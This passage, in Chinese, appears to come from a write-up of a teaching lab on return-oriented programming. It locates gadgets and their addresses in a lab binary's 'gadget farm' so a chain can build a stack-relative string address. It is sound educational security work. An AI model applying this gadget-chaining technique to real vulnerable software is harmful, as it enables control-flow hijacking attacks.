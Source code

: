 其作用是将 `%rdi` 和 `%rsi` 的值之和传给 `%rax` 寄存器。目前 `%rsp` 的值保存在 `%rdi` 寄存器中，因此我们需要想办法把偏移量 `offset` 的值传到 `%rsi` 寄存器，从而我们就能利用这个 gadget 中的指令得到字符串的实际地址。

类似 [4.4.1](#441-第-1-句指令) 节，我们可以将 `offset` 的值先保存在栈中，然后利用 `popq` 指令弹栈传给某个寄存器，此后再利用 `movq`、`movl` 等指令传到 `%rsi` 寄存器。

###### 5.4.1.4 第 1 个 gadget

由 [4.4.1.1](#4411-第-1-个-gadget) 节，第 1 个 gadget 中有汇编指令：

```asm
popq   %rax
ret
```

该指令的地址为 `0x4019cc`。

现在我们的目标就转化为利用 `movq`、`movl` 等指令将 `%rax` 的值传到 `%rsi` 寄存器。遗憾的是，gadget farm 中并不存在直接将 `%rax` 的值传给 `%rsi` 寄存器的汇编指令，因此需要进行多次传递。

###### 5.4.1.5 第 5 个 gadget

注意到 gadget farm 中函数 `addval_436` 对应的汇编语句：

```text
0000000000401a11 <addval_436>:
  401a11:   8d 87 89 ce 90 90       lea    -0x6f6f3177(%rdi),%eax
  401a17:   c3                      retq
```

其中机器码 `89 ce 90 90 c3` 对应汇编指令：

```asm
movl   %ecx,%esi
ret
```

该指令的地址为 `0x401a13`。

###### 5.4.1.6 第 6 个 gadget

注意到 gadget farm 中函数 `getval_159` 对应的汇编语句：

```text
0000000000401a33 <getval_159>:
  401a33:   b8 89 d1 38 c9          mov    $0xc938d189,%eax
  401a38:   c3                      retq
```

其中机器码 `89 d1 38 c9 c3` 对应汇编指令：

```asm
movl   %edx,%ecx
cmpb   %cl,%cl
ret
```

该指令的地址为 `0x401a34`。这里 `cmpb %cl,%cl` 相当于一条无用指令。

###### 5.4.1.7 第 7 个 gadget
